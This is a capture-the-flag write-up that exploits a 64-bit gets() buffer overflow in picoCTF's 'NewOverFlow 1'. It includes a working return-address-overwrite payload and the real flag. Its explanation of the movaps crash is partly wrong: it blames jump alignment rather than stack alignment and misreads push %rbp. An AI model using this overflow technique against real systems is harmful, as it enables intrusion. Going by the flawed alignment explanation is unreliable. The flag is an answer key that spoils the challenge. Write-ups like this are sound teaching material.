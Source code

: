 # PicoCTF19 NewOverFlow 1

## Challenge

Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](https://2019shell1.picoctf.com/static/37a322b44b57810c3d9334d734bd394b/vuln). You can find it in /problems/newoverflow-1 on the shell server. [Source](https://2019shell1.picoctf.com/static/37a322b44b57810c3d9334d734bd394b/vuln.c).

## Hints

Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

## Solution

Let's take a look at the directory and copy the executable over to my home directory so I can debug it with GDB without any restrictions.

```bash
samson@pico-2019-shell1:/problems/newoverflow-1$ ls -al
total 96
drwxr-xr-x   2 root       root             4096 Sep 28 21:47 .
drwxr-x--x 684 root       root            69632 Oct 10 18:02 ..
-r--r-----   1 hacksports newoverflow-1_5    50 Sep 28 21:47 flag.txt
-rwxr-sr-x   1 hacksports newoverflow-1_5  8728 Sep 28 21:47 vuln
-rw-rw-r--   1 hacksports hacksports        628 Sep 28 21:47 vuln.c
samson@pico-2019-shell1:/problems/newoverflow-1$ cat vuln.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}

samson@pico-2019-shell1:/problems/newoverflow-1$ cp vuln ~ && pushd . && cd ~
samson@pico-2019-shell1:~$ nano flag.txt
samson@pico-2019-shell1:~$ cat flag.txt 
SAMCTF{NOT_THE_ACTUAL_FLAG}
```

It seems like PicoCTF19 Overflow 1, but it doesn't print the last address it will try to access which in the case of the function `vuln()` will be a return address to `main()`.

```bash
Welcome to 64-bit. Give me a string that gets you the flag: 
A
samson@pico-2019-shell1:~$ echo $(python -c "print 'A'*68") | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
Segmentation fault (core dumped)
```

Okay, no help here. So let's crash it with `gdb`.

```bash
samson@pico-2019-shell1:~$ gdb ./vuln 
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) x flag
0x400767 <flag>:        0xe5894855
(gdb) r < <(python -c 'print("A"*64+"B"*4+"C"*4+"D"*4+"E"*4)')
Starting program: /home/samson/vuln < <(python -c 'print("A"*64+"B"*4+"C"*4+"D"*4+"E"*4)')
Welcome to 64-bit. Give me a string that gets you the flag: 

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007e7 in vuln ()
(gdb) x/g $sp
0x7fffffffe468: 0x4545454544444444
```

So it seems like we need to overwrite the 'C''s and 'D''s with the flag function address `0x400767`.

```bash
(gdb)  r < <(python -c "print('A'*72+'\x67\x07\x40'+'\x00'*5)")
Starting program: /home/samson/vuln < <(python -c "print('A'*72+'\x67\x07\x40'+'\x00'*5)")
Welcome to 64-bit. Give me a string that gets you the flag: 

Program received signal SIGSEGV, Segmentation fault.
buffered_vfprintf (s=s@entry=0x7ffff7dd0760 <_IO_2_1_stdout_>, format=format@entry=0x7fffffffe418 "SAMCTF{NOT_THE_ACTUAL_FLAG}\n", args=args@entry=0x7fffffffe338) at vfprintf.c:2314
2314    vfprintf.c: No such file or directory.
```

Interesting. An error in GDB. What's the program counter register at?

```bash
(gdb) x/i $pc
=> 0x7ffff7a4266e <buffered_vfprintf+158>:      movaps %xmm0,0x50(%rsp)
```

What's that `movaps` instruction? I've literally never seen that before?
I'll spare you the search results but basically this error is due to the program causing the kernel to jump to the address `0x400767` which is not a valid jump address in `x64`. Otherwise known as a alignment violation. In order to jump properly, I need to jump to an address which is a multiple of 16.

```bash
(gdb) disas flag
Dump of assembler code for function flag:
   0x0000000000400767 <+0>:     push   %rbp
   0x0000000000400768 <+1>:     mov    %rsp,%rbp
   0x000000000040076b <+4>:     sub    $0x50,%rsp
   0x000000000040076f <+8>:     lea    0x172(%rip),%rsi        # 0x4008e8
   0x0000000000400776 <+15>:    lea    0x16d(%rip),%rdi        # 0x4008ea
   0x000000000040077d <+22>:    callq  0x400660 <fopen@plt>
   0x0000000000400782 <+27>:    mov    %rax,-0x8(%rbp)
   0x0000000000400786 <+31>:    cmpq   $0x0,-0x8(%rbp)
   0x000000000040078b <+36>:    jne    0x4007a3 <flag+60>
   0x000000000040078d <+38>:    lea    0x164(%rip),%rdi        # 0x4008f8
   0x0000000000400794 <+45>:    callq  0x4005f0 <puts@plt>
   0x0000000000400799 <+50>:    mov    $0x0,%edi
   0x000000000040079e <+55>:    callq  0x400670 <exit@plt>
   0x00000000004007a3 <+60>:    mov    -0x8(%rbp),%rdx
   0x00000000004007a7 <+64>:    lea    -0x50(%rbp),%rax
   0x00000000004007ab <+68>:    mov    $0x40,%esi
   0x00000000004007b0 <+73>:    mov    %rax,%rdi
   0x00000000004007b3 <+76>:    callq  0x400620 <fgets@plt>
   0x00000000004007b8 <+81>:    lea    -0x50(%rbp),%rax
   0x00000000004007bc <+85>:    mov    %rax,%rdi
   0x00000000004007bf <+88>:    mov    $0x0,%eax
   0x00000000004007c4 <+93>:    callq  0x400610 <printf@plt>
   0x00000000004007c9 <+98>:    nop
   0x00000000004007ca <+99>:    leaveq 
   0x00000000004007cb <+100>:   retq   
End of assembler dump.
```

Well it looks like the first instruction is most likely just pushing the return address on the stack so the program can return to the `main()` function after completing flag. The next instruction seems like it is probably related to the `flag()` function and is a multiple of 16 in hex. So let's try jumping to that address instead.

```bash
samson@pico-2019-shell1:~$ python -c "print('A'*72+'\x68\x07\x40'+'\x00'*5)" | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
SAMCTF{NOT_THE_ACTUAL_FLAG}
Segmentation fault (core dumped)
samson@pico-2019-shell1:~$ popd && python -c "print('A'*72+'\x68\x07\x40'+'\x00'*5)" | ./vuln
/problems/newoverflow-1 /problems/newoverflow-1
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_351346a2}
Segmentation fault (core dumped)
```

## Flag

`picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_351346a2}`